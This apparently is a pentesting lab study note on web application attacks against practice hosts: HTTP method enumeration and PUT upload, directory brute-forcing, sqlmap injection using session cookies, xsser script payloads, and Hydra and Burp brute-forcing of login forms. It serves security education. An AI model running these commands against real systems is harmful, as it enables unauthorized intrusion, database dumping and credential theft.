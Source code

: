 # Web application

### Introduction

* A website is juste files on a server with HTML, CSS and JavaScript.
* The webservers are Apache, TomCat, Nginx, Microsoft IIS.
* The Off-premise hosting are Amazon web services, WordPress, Firebase, Microsoft Azure, DigitalOcean, Cloudflare, INE etc.

### HTTP method enumeration

```bash
kali@kali> curl -X OPTIONS 192.202.65.3 -v
kali@kali> curl -X GET 192.202.65.3
kali@kali> curl -X HEAD 192.202.65.3
kali@kali> curl -X PUT 192.202.65.3  # method not allowed

kali@kali> curl -X OPTIONS 192.202.65.3/login.php -v
kali@kali> curl -X POST 192.202.65.3/login.php
kali@kali> curl -X POST 192.202.65.3/login.php -d "name=john&password=password" -v

kali@kali> curl -X OPTIONS 192.202.65.3/uploads/ -v
# OPTIONS,GET,HEAD,POST,DELETE,TRACE,PROPFIND
# PROPPATCH,COPY,MOVE,LOCK,UNLOCK
kali@kali> echo "Hello World!" > hello.txt
kali@kali> curl 192.202.65.3/uploads/ --upload-file hello.txt
```

It uploads a file onto the web server because the PUT is allowed.

### Gobuster

```bash
kali@kali> gobuster dir -u http://192.193.74.3 -w /usr/share/wordlists/dirb/common.txt -b 403,404
kali@kali> gobuster dir -u http://192.193.74.3 -w /usr/share/wordlists/dirb/common.txt -b 403,404 -x .php,.xml,.txt -r
kali@kali> gobuster dir -u http://192.193.74.3/data -w /usr/share/wordlists/dirb/common.txt -b 403,404 -x .php,.xml,.txt -r
kali@kali> curl http://192.193.74.3/data/account.xml
```

### BurpSuite directory enumeration

Start Burp Suite and capture the packet from http://192.168.23.3.

<figure><img src="../../.gitbook/assets/133.png" alt=""><figcaption></figcaption></figure>

Then move the request to the intruder and add the wordlist `/usr/share/wordlists/dirb/common.txt` and **attack**.

### ZAProxy

<figure><img src="../../.gitbook/assets/134.webp" alt=""><figcaption></figcaption></figure>

### Nikto

```bash
kali@kali> nikto http://192.19.125.3
```

<figure><img src="../../.gitbook/assets/135.png" alt=""><figcaption></figcaption></figure>

### SQLMap

<figure><img src="../../.gitbook/assets/136.png" alt=""><figcaption></figcaption></figure>

* Connect to bwap with credentials `bee:bug`.
* Grab the cookie by inspecting the GET request for http://192.222.140.3/portal.php (bd8t5qipab8p64f85oitd9f5f5)
* Go to http://192.222.140.3/sqli\_1.php and enter something in the form to research in the database. The url will be http://192.222.140.3/sqli\_1.php?title=john\&action=search.

```bash
kali@kali> sqlmap -u 'http://192.222.140.3/sqli_1.php?title=john&action=search' --cookie 'PHPSESSID=bd8t5qipab8p64f85oitd9f5f5; security_level=0' -p title
kali@kali> sqlmap -u 'http://192.222.140.3/sqli_1.php?title=john&action=search' --cookie 'PHPSESSID=bd8t5qipab8p64f85oitd9f5f5; security_level=0' -p title --dbs
kali@kali> sqlmap -u 'http://192.222.140.3/sqli_1.php?title=john&action=search' --cookie 'PHPSESSID=bd8t5qipab8p64f85oitd9f5f5; security_level=0' -p title -D bWAPP tables
```

The parameter **title** is vulnerable and the payload are displayed.

For the POST request, store the request in a file `request` then execute the next command.

```bash
kali@kali> sqlmap -r request -t title
```

### XSSer

* Go to http://192.69.131.3/index.php?page=dns-lookup.php.
* Turn on BurpSuite.
* Capture the packet.

<figure><img src="../../.gitbook/assets/137.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/138.png" alt=""><figcaption></figcaption></figure>

```bash
kali@kali> xsser --url http://192.69.131.3/index.php?page=dns-lookup.php -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'
```

<figure><img src="../../.gitbook/assets/139.png" alt=""><figcaption></figcaption></figure>

```bash
kali@kali> xsser --url http://192.69.131.3/index.php?page=dns-lookup.php -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp '<script>alert(1)</script>'
```

<figure><img src="../../.gitbook/assets/140.png" alt=""><figcaption></figcaption></figure>

Copy/paste the **Final attack** to BurpSuite then run and you will have a JavaScript alert.

### Authenticated XSSer

```bash
kali@kali> xsser --url 'http://192.194.74.3/htmli_get.php?firstname=XSS&lastname=doe&form=submit' --cookie 'PHPSESSID=83rlkqf374baia021e64usk9e2; security_level=0'
kali@kali> xsser --url 'http://192.194.74.3/htmli_get.php?firstname=XSS&lastname=doe&form=submit' --cookie 'PHPSESSID=83rlkqf374baia021e64usk9e2; security_level=0' --Fp '<script>alert(0)</script>'
```

<figure><img src="../../.gitbook/assets/141.png" alt=""><figcaption></figcaption></figure>

### HTTP Login form with Hydra

```bash
kali@kali> hydra -L users -P passwords 192.107.115.3 http-post-form '/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!'
```

### Basic auth BurpSuite

* Go to http://192.89.33.3/basic and you will need to authenticate by a form.
* Open BurpSuite and catch the form request.

<figure><img src="../../.gitbook/assets/142.png" alt=""><figcaption></figcaption></figure>

The `Authorization` is base64 encoded.

<figure><img src="../../.gitbook/assets/143.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/144.png" alt=""><figcaption></figcaption></figure>

* Add a wordlist `/root/desktop/wordlists/common_password.txt`
* Add 2 rules
  * Prefix `admin:` (we suppose that we know the username)
  * Encode in `base64`

After running the attack, we can see a status code 301, try to base64 decode it and you get credentials `admin:cookie1`. If you try these in the form, you get redirected to the flag page.
